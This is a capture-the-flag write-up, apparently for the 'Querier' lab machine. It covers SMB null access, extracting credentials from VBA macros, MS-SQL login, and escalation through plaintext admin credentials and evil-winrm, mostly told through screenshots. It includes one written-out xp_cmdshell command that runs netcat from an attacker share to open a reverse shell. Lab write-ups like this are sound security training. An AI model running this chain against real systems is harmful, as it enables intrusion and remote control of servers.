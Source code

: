 # Querier

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>

Interesting that there was a MS-SQL instance publicly open.

### XLSM Credentials

SMB allowed for null credentials to be accessed here:

<figure><img src="../../../.gitbook/assets/image (24) (2).png" alt=""><figcaption></figcaption></figure>

Within the Reports directory, I found a .xlsm file.

<figure><img src="../../../.gitbook/assets/image (26) (7).png" alt=""><figcaption></figcaption></figure>

We can download this Excel file back to our machine for analysis. Here, I used `oletools` to find out more about the file:

<figure><img src="../../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

We can see how there are VBA Macros within this file. Again, we can use `olevba` to extract the code.

<figure><img src="../../../.gitbook/assets/image (15) (1) (6).png" alt=""><figcaption></figcaption></figure>

We found find this set of credentials for the database here.

<figure><img src="../../../.gitbook/assets/image (11) (1) (4).png" alt=""><figcaption></figcaption></figure>

We can then use `mssqlclient.py` to authenticate as this `reporting` user for the database that is publicly facing forward.

<figure><img src="../../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

### xp\_cmdshell

With access to the MS-SQL Database, I found that we are able to use `xp_cmdshell` to execute commands on the server.

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can easily gain a reverse shell through whatever means. I executed `nc.exe` over SMB.

```
xp_cmdshell "\\<IP>\share\nc64.exe -e cmd <IP> 4444"
```

<figure><img src="../../../.gitbook/assets/image (27) (7).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Now that we're in the machine, I ran winPEAS to enumerate possible escalation vectors. Funnily, it found the Administrator credentials in plaintext within the machine.

<figure><img src="../../../.gitbook/assets/image (7) (4).png" alt=""><figcaption></figcaption></figure>

Earlier, Nmap detected that port 5985 for WinRM was open. As such, we can use `evil-winrm` to gain a shell as the administrator.

<figure><img src="../../../.gitbook/assets/image (44) (4).png" alt=""><figcaption></figcaption></figure>
